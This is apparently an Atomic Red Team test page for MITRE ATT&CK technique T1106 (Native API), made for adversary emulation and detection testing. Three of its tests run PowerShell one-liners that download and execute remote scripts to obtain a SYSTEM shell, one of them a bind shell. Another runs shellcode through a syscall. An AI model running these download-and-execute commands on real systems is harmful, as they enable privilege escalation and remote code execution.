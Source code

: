 ```yaml
---
tags: [T1106, atomic_test]
filename: "[[T1106|T1106 - Native API]]"
---
```


# T1106 - Native API
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1106)
<blockquote>Adversaries may interact with the native OS application programming interface (API) to execute behaviors. Native APIs provide a controlled means of calling low-level OS services within the kernel, such as those involving hardware/devices, memory, and processes.(Citation: NT API Windows)(Citation: Linux Kernel API) These native APIs are leveraged by the OS during system boot (when other system components are not yet initialized) as well as carrying out tasks and requests during routine operations.

Adversaries may abuse these OS API functions as a means of executing behaviors. Similar to [Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059), the native API and its hierarchy of interfaces provide mechanisms to interact with and utilize various components of a victimized system.

Native API functions (such as <code>NtCreateProcess</code>) may be directed invoked via system calls / syscalls, but these features are also often exposed to user-mode applications via interfaces and libraries.(Citation: OutFlank System Calls)(Citation: CyberBit System Calls)(Citation: MDSec System Calls) For example, functions such as the Windows API <code>CreateProcess()</code> or GNU <code>fork()</code> will allow programs and scripts to start other processes.(Citation: Microsoft CreateProcess)(Citation: GNU Fork) This may allow API callers to execute a binary, run a CLI command, load modules, etc. as thousands of similar API functions exist for various system operations.(Citation: Microsoft Win32)(Citation: LIBC)(Citation: GLIBC)

Higher level software frameworks, such as Microsoft .NET and macOS Cocoa, are also available to interact with native APIs. These frameworks typically provide language wrappers/abstractions to API functionalities and are designed for ease-of-use/portability of code.(Citation: Microsoft NET)(Citation: Apple Core Services)(Citation: MACOS Cocoa)(Citation: macOS Foundation)

Adversaries may use assembly to directly or in-directly invoke syscalls in an attempt to subvert defensive sensors and detection signatures such as user mode API-hooks.(Citation: Redops Syscalls) Adversaries may also attempt to tamper with sensors and defensive tools associated with API monitoring, such as unhooking monitored functions via [Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Execution through API - CreateProcess](#atomic-test-1---execution-through-api---createprocess)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-createprocess-technique)

- [Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique](#atomic-test-3---winpwn---get-system-shell---bind-system-shell-using-createprocess-technique)

- [Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique](#atomic-test-4---winpwn---get-system-shell---pop-system-shell-using-namedpipe-impersonation-technique)

- [Atomic Test #5 - Run Shellcode via Syscall in Go](#atomic-test-5---run-shellcode-via-syscall-in-go)


<br/>

## Atomic Test #1 - Execution through API - CreateProcess
Execute program by leveraging Win32 API's. By default, this will launch calc.exe from the command prompt.

**Supported Platforms:** Windows


**auto_generated_guid:** 99be2089-c52d-4a4a-b5c3-261ee42c8b62





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| source_file | Location of the CSharp source file to compile and execute | path | PathToAtomicsFolder&#92;T1106&#92;src&#92;CreateProcess.cs|
| output_file | Location of the payload | path | %tmp%&#92;T1106.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:"#{output_file}" /target:exe "#{source_file}"
%tmp%/T1106.exe
```




#### Dependencies:  Run with `powershell`!
##### Description: #{source_file} must exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{source_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{source_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1106/src/CreateProcess.cs" -OutFile "#{source_file}"
```




<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique
Get SYSTEM shell - Pop System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** ce4e76e6-de70-4392-9efe-b281fc2b4087






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
```






<br/>
<br/>

## Atomic Test #3 - WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique
Get SYSTEM shell - Bind System Shell using CreateProcess technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7ec5b74e-8289-4ff2-a162-b6f286a33abd






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique
Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e1f93a06-1649-4f07-89a8-f57279a7d60e






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
```






<br/>
<br/>

## Atomic Test #5 - Run Shellcode via Syscall in Go
Runs shellcode in the current running process via a syscall.

Steps taken with this technique
1. Allocate memory for the shellcode with VirtualAlloc setting the page permissions to Read/Write
2. Use the RtlCopyMemory macro to copy the shellcode to the allocated memory space
3. Change the memory page permissions to Execute/Read with VirtualProtect
4. Use syscall to execute the entrypoint of the shellcode

- PoC Credit: (https://github.com/Ne0nd0g/go-shellcode#syscall)

**Supported Platforms:** Windows


**auto_generated_guid:** ae56083f-28d0-417d-84da-df4242da1f7c






#### Attack Commands: Run with `powershell`! 


```powershell
$PathToAtomicsFolder\T1106\bin\x64\syscall.exe -debug
```

#### Cleanup Commands:
```powershell
Stop-Process -Name CalculatorApp -ErrorAction SilentlyContinue
```





<br/>
